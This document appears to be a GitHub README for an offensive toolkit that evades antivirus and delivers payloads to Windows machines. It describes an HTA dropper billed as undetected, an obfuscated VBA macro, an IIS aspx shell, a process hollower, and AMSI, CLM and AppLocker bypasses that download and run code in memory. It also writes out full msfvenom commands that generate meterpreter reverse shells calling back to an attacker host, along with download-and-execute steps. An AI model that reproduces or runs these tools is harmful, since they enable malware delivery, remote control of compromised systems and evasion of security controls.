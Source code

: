 ## TOOLS:
* Platform.sln => platform.exe
```
PE with bypasses - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* XOREncrypt.sln => XOREncrypt.exe 
```
A second layer shellcode XOR encoer.
```
* holcrimson.sln => holcrimson.dll
```
Unamanged DLL for in memory loading - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* Doc1.doc - example Doc1.doc from medium article.
* VBA_XORencrypt.ps1 - Powershell script for encrypting 4 parts of VBA macro.
* Platform.txt - PS script
```
1. AMSI bypass
2. Download DLL
3. Load DLL to memory.
4. Run DLL.
```
* macro.vba - for Doc1.doc
```
Obfuscated VBA macro for docm / doc attack.
```
* platform.aspx - for IIS webserver attack
```
Use with msfvenom encrypted generated shellcode + XOREncrypt.sln
```
* platform.hta - dropper.
```
Use with obfuscated PE ShellCode Runner
Download to disk and run - this is undetected.
```
* isma.txt - use "-arg=1".split for arguemnts parsing.
```
1. AMSI bypass
2. Download PE
3. Load PE to memory.
4. Run PE.
```
* HOLLOW.sln => HOLLOW.exe - Process Hollower.
```
1. Generate encrypted shellcode
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$ip LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key w -o shell.cs
2. Place inside and compile it.
```
* ConfuserEX.zip - for .NET PE obfuscation.
* Hyperion.zip - Crypter for PE obfuscation.
```
hyperion.exe input.exe output.exe
```
* [Pezor](https://github.com/Karmaz95/PEzor)
```
bash PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 evil.exe -z 2
```
* bypass-clm.exe - [CLM Bypass](https://github.com/Karmaz95/bypass-clm) => spawn PowerShell in current terminal.
* clm_enc.txt - Same as bypass-clm.exe but base64 encoded with certutil and you can pass b64 encoded commands:
```
certutil -decode clm_enc.txt clm.exe
# Example of b64 below checks if the PowerShell run in FullLanguage
clm.exe "JABFAHgAZQBjAHUAdABpAG8AbgBDAG8AbgB0AGUAeAB0AC4AUwBlAHMAcwBpAG8AbgBTAHQAYQB0AGUALgBMAGEAbgBnAHUAYQBnAGUATQBvAGQAZQA="
```
* install_shellcode.cs - [APPLOCKER BYPASS](https://github.com/Karmaz95/install_shellcode.cs) => InstallUtil Shellcode Runner
```
msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=443 -f csharp -o shell.cs
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe  /unsafe /platform:x86 /out:install_shellcode.exe .\install_shellcode.cs
iwr -uri 'http://$ip/install_shellcode.exe' -outfile C:/asd/install_shellcode.exe;
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U install_shellcode.exe
```

## SCORE 
<p align="center">
  <img src="antiscanme.png" />
</p>
